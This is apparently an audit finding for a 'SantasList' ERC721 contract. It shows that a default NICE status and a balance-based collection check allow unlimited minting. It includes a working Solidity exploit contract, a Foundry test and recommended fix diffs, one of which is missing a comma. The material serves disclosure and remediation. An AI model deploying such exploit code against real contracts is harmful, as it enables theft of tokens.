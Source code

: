 ## Summary

Several vulnerabilities allow an attacker to mint an unlimited amount of tokens.

## Vulnerability Details

A combination of vulnerabilities contributes to this issue:

- `SantasList` enum struct default value is `Status.NICE`:
```javascript
enum Status {
@>    NICE,
    EXTRA_NICE,
    NAUGHTY,
    NOT_CHECKED_TWICE
}
```
- No recording of present receivers, balanceOf(msg.sender) > 0 is used instead:
```javascript
    if (balanceOf(msg.sender) > 0) {
            revert SantasList__AlreadyCollected();
        }
```

## Impact

An attacker can create a ERC721 receiver, call SantasList.collectPresent(), and immediately transfer received tokens to another address:

```javascript
contract THE_CHRISTMAS_THIEF {
  ISantasList santa;

  address grinch;
  address grinchBag;

  bytes4 private constant _ERC721_RECEIVED = 0x150b7a02;

  constructor(
    address _santaAddress,
    address _grinch,
    address _grinchBag
  ) {
    santa = ISantasList(_santaAddress);
    grinchBag = _grinchBag;
    grinch = _grinch;
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes calldata
  ) external pure returns (bytes4) {
    return _ERC721_RECEIVED;
  }

  function stealChristmas(uint256 asMuchAsIWant) public {
    for (uint256 i; i < asMuchAsIWant; i++) {
      santa.collectPresent(); 
      santa.transferFrom(address(this), grinchBag, i);
    }
  }

```

The test in Foundry will look like this:

```javascript
  function test_stealChristmas() public {
    vm.startPrank(grinch);
    christmasThief.stealChristmas(69);
    assertEq(santasList.balanceOf(grinchBag), 69);
    vm.stopPrank();
  }
```

Full test on [GitHub repo fork](https://github.com/algobotishere/2023-11-Santas-List/blob/98a91daf2046b728b8e7021526e7e9733f76e15f/test/unit/SantaHacks.t.sol#L45)

## Tools Used

Foundry

## Recommendations

To comprehensively address this issue, change the following lines:

1. Set up a default value as non-eligible for present receiving:

```diff
    enum Status {
-       NICE,
+      NAUGHTY
        EXTRA_NICE,
-       NAUGHTY,
+      NICE,
        NOT_CHECKED_TWICE
    }
```
2. Introduce a list of persons that already received the present:

```diff
+     mapping(address => bool) public presentsReceived;

  function collectPresent() external {
        if (block.timestamp < CHRISTMAS_2023_BLOCK_TIME) {
            revert SantasList__NotChristmasYet();
        }
-        if (balanceOf(msg.sender) > 0) {
+       if(presentsReceived[msg.sender])
            revert SantasList__AlreadyCollected();
        }
        if (s_theListCheckedOnce[msg.sender] == Status.NICE && s_theListCheckedTwice[msg.sender] == Status.NICE) {
+        presentsReceived[msg.sender] = true;
            _mintAndIncrement();
            return;
        } else if (
            s_theListCheckedOnce[msg.sender] == Status.EXTRA_NICE
                && s_theListCheckedTwice[msg.sender] == Status.EXTRA_NICE
        ) {
+        presentsReceived[msg.sender] = true;
            _mintAndIncrement();
            i_santaToken.mint(msg.sender);
            return;
        }
        revert SantasList__NotNice();
    }
```


